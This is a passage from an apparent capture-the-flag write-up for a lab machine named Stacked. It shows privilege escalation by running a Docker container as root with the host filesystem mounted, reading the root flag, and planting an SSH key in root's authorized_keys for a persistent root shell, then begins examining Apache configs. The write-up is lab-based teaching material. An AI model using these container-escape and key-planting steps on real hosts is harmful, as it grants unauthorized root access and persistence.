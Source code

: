 
I could actually use the Lambda containers, just overriding the entry with
`--entrypoint bash` (and no `-d` since the entry is what I want to interact
with):

    
    
    bash-5.0# docker run -v /:/mnt --entrypoint bash -it 22a4ada8399c 
    bash-4.2$ cat /mnt/etc/hostname 
    stacked
    

To access everything, I’ll need to run that entry as root with `-u root`:

    
    
    bash-5.0# docker run -v /:/mnt --entrypoint bash -u root -it 22a4ada8399c
    bash-4.2#
    

From here I can grab `root.txt`:

    
    
    bash-4.2# cat /mnt/root/root.txt
    bd97095c************************
    

### Shell

To get a root shell, I’ll just write my public key into
`/mnt/root/.ssh/authorized_keys`:

    
    
    bash-4.2# echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing" > authorized_keys
    

Now I can SSH to Stacked:

    
    
    oxdf@hacky$ ssh -i ~/keys/ed25519_gen root@stacked.htb
    ...[snip]...
    root@stacked:~# 
    

## Beyond Root

### Message App

#### Reconfigure

I want to look more at what’s happening with the local mail application and
the XSS. With the root shell on the host, I can reconfigure the web server to
be accessible from my VM.

There are four hosts defined and enabled for Apache:

    
    
    root@stacked:/etc/apache2/sites-enabled# ls
    001-website.conf  003-proxy.conf  004-portfolio.conf  005-management.conf
    